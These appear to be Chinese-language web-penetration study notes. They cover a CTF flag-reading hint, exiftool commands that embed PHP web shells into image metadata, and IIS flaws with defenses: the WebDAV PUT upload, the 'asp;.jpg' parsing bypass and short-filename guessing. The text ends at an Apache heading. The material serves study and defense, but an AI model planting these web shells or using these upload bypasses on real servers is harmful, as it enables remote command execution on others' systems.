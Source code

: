 show_source('flag');读取flag

### 图片马

```shell
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' sample.png

exiftool poc.jpg -documentname="<?php echo exec(\$_REQUEST['cmd']); ?>"
```



# 2.中间件解析漏洞

存在目录遍历漏洞的中间件有哪些？

Iis、apache、nginx

存在war后门文件部署？

Tomcat、weblogic、jboss

## iis

### （1）  Put漏洞（本质是任意文件上传）

原理：IIS开启了WebDAV配置了可以写入的权限，造成了任意文件上传漏洞。

防御：关闭webDAV；关闭写入权限

### （2）  解析漏洞

原理：6.0版本默认将`*.asp;.jpg`此类格式的文件名，当成asp解析，服务器默认；后面的内容不解析，相当于截断，例如上传asp木马，就可以用`xx.asp;.jpg`来绕过；iis除了会将asp解析成脚本执行文件之外，还会将 cer cdx asa扩展名解析成asp

防御方法：

         1.禁止上传和创建此类畸形文件
    
         2.图片存放目录设置为禁止脚本执行

### （3）  短文件名猜解

原理：IIS的短文件名机制，可以暴力破解文件名。访问构造某个存在的短文件，会返回404，访问构造某个不存在的短文件，会返回400。使用payload验证目标是否存在短文件漏洞，显示404时，说明存在短文件。

防御方法：1、升级.net framework

                   2、修改注册表键值：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem修改NtfsDisable8dot3NameCreation为1。修改完成后,需要重启系统生效。

命令行关闭 fsutil behavior set disable8dot3

## Apache

### （1）  解析漏洞（未知拓展名解析漏洞）

